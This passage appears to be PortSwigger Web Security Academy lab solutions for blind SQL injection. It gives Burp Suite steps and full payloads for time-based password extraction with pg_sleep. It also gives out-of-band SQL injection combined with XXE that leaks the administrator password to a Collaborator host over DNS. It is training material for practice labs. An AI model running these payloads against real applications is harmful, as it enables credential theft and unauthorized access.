 15.  Review the attack results to find the value of the character at the first position. You should see a column in the results called "Response received". This will generally contain a small number, representing the number of milliseconds the application took to respond. One of the rows should have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.
16.  Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
17.  Launch the modified attack, review the results, and note the character at the second offset.
18.  Continue this process testing offset 3, 4, and so on, until you have the whole password.
19.  In your browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.

### Lab: Blind SQL injection with out-of-band interaction

1.  Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2.  Modify the `TrackingId` cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic [XXE](https://portswigger.net/web-security/xxe) techniques as follows: `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`.

The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.

### Lab: Blind SQL injection with out-of-band data exfiltration

1.  Visit the front page of the shop, and use [Burp Suite Professional](https://portswigger.net/burp/pro) to intercept and modify the request containing the `TrackingId` cookie.
2.  Go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
3.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4.  Modify the `TrackingId` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic [XXE](https://portswigger.net/web-security/xxe) techniques as follows: `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`.
5.  Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
6.  You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the `administrator` user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
7.  In your browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.
